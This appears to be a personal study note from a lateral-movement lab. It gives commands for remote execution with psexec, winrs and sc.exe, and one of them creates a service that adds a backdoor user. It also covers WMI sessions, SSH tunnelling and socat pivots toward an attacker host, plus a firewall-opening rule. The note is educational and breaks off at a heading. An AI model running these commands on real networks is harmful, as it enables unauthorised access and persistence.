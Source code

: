 ```yaml
---
dg-publish: true
---
```







## ==Steps Followed==

- Initial Reconnaissance
- Initial Compromise
- Establish Foothold
- Escalate Privileges
    - Internal Recon
    - Move Laterally
    - Maintain Presence
- Complete Mission

## ==Spawning Processes==

### ==Psexec==

```Shell
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

### ==WinRM==

- Web based protocol used to send Powershell commands to Windows hosts remotely.

```Shell
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

- To achieve this, We need to create a PSCredential object

```Shell
$username = '';
$password = '';
$securePassword = '';
$credential = '';
```

### ==sc==

- Create a service on a remote host with sc.exe.

```Shell
sc.exe \\TARGET create THMService binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice

sc.exe \\TARGET stop THMService
sc.exe \\TARGET delete THMService
```

## ==Windows Management Instrumentation==

- Create the same PSCredential object as earlier.
- Store the commands on the $Session variable
    
    ```Shell
    $Opt = New-CimSessionOption -Protocol DCOM
    $Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction
    ```
    

## ==Alternate Authentication==

### ==NTLM Auth==

![Untitled.jpeg](/img/user/img/Untitled.jpeg)

### ==Kerberos Auth==

- Kerberos operates on tickets, allowing nodes to securely prove identity.
- The protocol messages are protected against eavesdropping and replay attacks, and builds on symmetric-key cryptography.

## ==Port Forwarding==

### ==SSH Tunnelling==

- Create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels.

```Shell
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

### ==SSH Remote Port Forwarding==

- Allows to take a reachable port from the SSH client and project it into a remote SSH server.

```Shell
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

### ==SSH Local Port Forwarding==

- Allows to “pull” a port from an SSH server into the SSH client. Used to take any service available in attacker’s machine and make it available through ports on PC-1.

```Shell
ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

- -L is used for defining Local.
- Need to add a firewall rule to allow for incoming connections.

```Shell
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

- Can be done with socat where SSH is not available.

```Shell
socat TCP4-LISTEN:3389, fork TCP4:3.3.3.3:3389
```

> socat cant forward the connection directly to attacker instead just opens a port there.

### ==Dynamic Port Forwarding==